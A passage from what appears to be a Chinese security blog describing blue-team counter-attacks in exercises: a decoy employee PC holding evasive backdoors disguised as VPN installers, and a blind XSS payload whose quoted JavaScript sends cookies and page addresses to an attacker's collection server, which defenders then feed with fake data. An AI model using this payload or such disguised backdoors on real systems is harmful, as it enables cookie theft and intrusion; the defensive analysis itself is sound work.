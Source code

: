 **名字：**许晋 （jinxu）

**身份：**巡检职员

**平时上机内容：**看视频、打游戏、巡检

**系统软件：**Office三件套, 搜狗输入法, QQ, 微信, Xmind, 谷歌浏览器, Winrar, 迅雷, 百度网盘, Everything, 爱奇艺, 腾讯视频, QQ音乐, 网易云音乐, FastStone Capture....

**系统环境：**除了部署一些常见的系统软件，我们还要创建一系列工作文档（手工伪造、由客户提供非敏感公开数...），并在众多的工作文档中携带了我们部署的免杀后门（伪装成VPN安装包或办公软件）。

**目的：**点开钓鱼邮件的附件，假装中招后，让攻击者在翻当前PC机器的时候寻找到我们投下的假密码本，并结合VPN安装包，使得攻击者下载VPN安装包并进行安装，从而进行反向控制。

其中具体细节不过多赘述，套路都一样，在多次演习中都成功的反制到了攻击队的VPS，甚至在演习中我们拿下了攻击队的终端PC...

#### 盲打攻击反制

盲打攻击算是在演习中比较不常见的了，因为其效率不高，没办法直接的直控权限，但在攻击方穷途末路的时候往往也会选择使用盲打漏洞的方式来获取权限进而深入，比较常见的就属于盲打XSS了。

![](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-09-03/15974215989685.jpg)

一般盲打XSS都具备一个数据回传接口（攻击者需要接收Cookie之类的数据），接口在JavaScript代码中是可以寻找到的，我们可以利用数据回传接口做2件事情：

1. 打脏数据回传给XSS平台（捣乱）
2. 打虚假数据回传给XSS平台（诱导）

通常选择第二种方式更有意义，当然实在不行的情况下我们还是可以选择捣乱的...

首先，我们获取到了XSS盲打的代码：

```html
'"><sCRiPt sRC=https://XXXX/shX36></sCrIpT>
```

跟进SRC属性对应值（地址），获得如下JavaScript代码：

```javascript
(function(){(new Image()).src='https://XXXX/xss.php?do=api&id=shX36&location='+escape((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return ''}})())+'&cookie='+escape((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+escape((function(){try{return (window.opener && window.opener.location.href)?window.opener.location.href:''}catch(e){return ''}})());})();if(''==1){keep=new Image();keep.src='https://XXXX/xss.php?do=keepsession&id=shX36&url='+escape(document.location)+'&cookie='+escape(document.cookie)};
```

通过该段代码我们可以知道数据都回传到了这个接口上：`https://XXXX/xss.php?do=api&id=shX36&location=地址&toplocation=地址&cookie=Cookie信息&opener=`

我们制定了一个计划：发送假数据前往攻击者所使用的XSS信息接收平台，诱导攻击者进入蜜罐。

资源准备：公网域名解析蜜罐地址（需要客户网络安全部门具备一定的权利），蜜罐（需要具备蜜罐产品）伪造假后台，并部署虚假准入客户端下载；（【细节】当攻击者Cookie伪造进后台时会提示：当前登录IP不在准入名单）

![](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-09-03/15974225450599.jpg)

万事俱备只欠东风，对应参数传入虚假诱导数据（Location地址为查看留言信息的地址，Toplocation为引用该界面的地址，将用户名、密码写入到Cookie中配合“准入客户端”的诱导攻击）发送过去，等待攻击队上钩。

![](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-09-03/15974225704908.jpg)
